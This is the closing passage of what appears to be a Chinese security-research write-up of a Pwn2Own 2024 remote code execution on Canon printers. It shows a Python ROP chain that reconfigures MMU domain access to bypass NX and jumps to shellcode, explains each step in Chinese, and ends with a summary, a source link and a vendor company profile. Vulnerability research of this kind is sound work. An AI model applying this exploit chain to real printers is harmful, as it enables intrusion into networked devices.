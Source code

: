 ```
# : pop {r0, r1, pc}
POP_R0_R1_PC = 0x0000000040d74f10 + 1

rop_chain = b&#34;&#34;
rop_chain += p32(POP_R0_R1_PC)
rop_chain += p32(0x400fc000) # R0: Hardcoded value from the binary
rop_chain += p32(0xffffffff) # R1: Set manager bits
rop_chain += p32(GADGET_POP_LR) # PC: Next gadget
rop_chain += p32(0xffffffff) # R1: Set manager bits
rop_chain += p32(0x22222222) # R2
rop_chain += p32(0x33333333) # R3
rop_chain += p32(0x77777777) # R4
rop_chain += p32(0x88888888) # R6
rop_chain += p32(GADGET_RET) # LR: Executed at end of function
rop_chain += p32(DISABLE_ACCESS_CHECKS) # PC: Offset into our function setting the manager bits
rop_chain += p32(BJNP_BUF) # Last gadget: Return to shellcode

```

  
  
在上述exploit执行流程中，我们首先通过寄存器传递关键参数：将R0设为页表基址指针，R1设为域访问控制位（DACR），完成对MMU初始状态的配置。随后利用GADGET_POP_LR指令片段劫持控制流，将链接寄存器LR的值覆为RET地址，确保首个gadget函数执行完毕后跳转至预期位置。紧接着，程序跳转到B地址处执行MMU重配置代码，通过修改域访问权限（将所有域设为Manager模式）绕过NX保护。最终，通过RET指令跳转至JNP_BUF，将执行权移交至预加载在缓冲区中的shellcode，实现任意代码执行。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**三、总结**  
  
****  
  
在本文中，我们详细解析了如何在打印机系统中定位漏洞，并通过精心构造的攻击路径成功实现远程代码执行（RCE），同时绕过了佳能固件中近期新增的安全防护机制  
。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**四、相关链接**  
  
****  
  
https://neodyme.io/en/blog/pwn2own-2024_canon_rce/  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8KrXv9sZf93yt4huq2kARyZSgmdnic40GayohIYiaD2FAkkAqJehJSMtQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
山石网科是中国网络安全行业的技术创新领导厂商，由一批知名网络安全技术骨干于2007年创立，并以首批网络安全企业的身份，于2019年9月登陆科创板（股票简称：山石网科，股票代码：688030）。  
  
现阶段，山石网科掌握30项自主研发核心技术，申请560多项国内外专利。山石网科于2019年起，积极布局信创领域，致力于推动国内信息技术创新，并于2021年正式启动安全芯片战略。2023年进行自研ASIC安全芯片的技术研发，旨在通过自主创新，为用户提供更高效、更安全的网络安全保障。目前，山石网科已形成了具备“全息、量化、智能、协同”四大技术特点的涉及  
基础设施安全、云安全、数据安全、应用安全、安全运营、工业互联网安全、信息技术应用创新、安全服务、安全教育等九大类产品服务，50余个行业和场景的完整解决方案。  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_gif/NGIAw2Z6vnLzibrp7C4HmazCNIQXMJIRxPibycdiaNQCI4PNojUk3eYCQDZs6c5zNMUkq7yFNeYQIxicAV33eHNdFA/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
